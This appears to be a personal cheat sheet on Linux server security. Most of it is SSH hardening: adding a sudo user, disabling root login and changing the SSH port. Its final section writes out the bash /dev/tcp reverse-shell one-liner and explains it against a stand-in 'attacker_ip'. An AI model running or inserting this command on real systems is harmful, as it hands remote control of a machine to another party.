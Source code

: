 # Cyber

## Why Using the Root User for Logging into a Server is Not Recommended
Using the root user to log into a server is generally not recommended due to several security and operational risks:

Common Knowledge of Root User:

Every hacker knows about the root user. If root login is enabled, hackers are one step closer to executing a brute-force attack.
Full Access and Risk of Errors:

When using the root user, you have full access to perform any action. This increases the likelihood of mistakenly executing harmful commands.
Security Risks with Certain Programs:

Running some programs as the root user poses a security risk because it grants excessive access, which is not desirable.
Difficulty in Tracking Actions:

If your server is accessed by multiple users and they all use the root account, it becomes difficult to determine who executed which command. This makes tracking down a user who performed a malicious action more challenging.

## Create user & add to sudo group & test
```bash
# create user
adduser <new user>
usermod -aG sudo <new user>
# test the root priviliege
su - user
sudo ls /root
# test ssh
ssh <new user>@ip_address_of_server
```
## ban root login to server
```bash
# modify ssh config on server
sudo nano /etc/ssh/sshd_config
# set PermitRootLogin to no

sudo service ssh restart

# run these on server
sudo rm -rf /root/.ssh
sudo passwd --lock root
```
after these following shouldnt be execute
```bash
ssh root@ip_address_of_server
```

## Change default port of ssh

- allow transfer on <port> : random number greater than 1024 (less are preserved)
```bash
sudo ufw allow <port>/tcp
```

- modify ssh config
```bash
sudo nano /etc/ssh/sshd_config
# change the port to new port 
#Port 5522
sudo systemctl restart sshd
```
connect via new port 
```bash
ssh -p <new port> <new user>@remote_host_or_ip
```

## create reverse shell
```bash
bash -i >& /dev/tcp/<dest_ip>/<port_ip> 0>&1
```
- bash -i: This launches a new interactive Bash shell. The -i flag makes the shell interactive, meaning it will read commands from standard input and provide output to standard output.

- >& /dev/tcp/attacker_ip/9001: This part redirects both the standard output (stdout) and standard error (stderr) of the Bash shell to a TCP connection. Specifically:

- &> is a redirection operator that combines both stdout and stderr.
/dev/tcp/attacker_ip/9001 is a special file in some Unix-like systems that represents a TCP connection. This means that the Bash shell's output will be sent over a network connection to the IP address attacker_ip on port 9001.

- 0>&1: This part redirects standard input (stdin) from the same source as standard output (stdout). In other words, it makes the shell read its input from the same TCP connection that it's writing its output to.


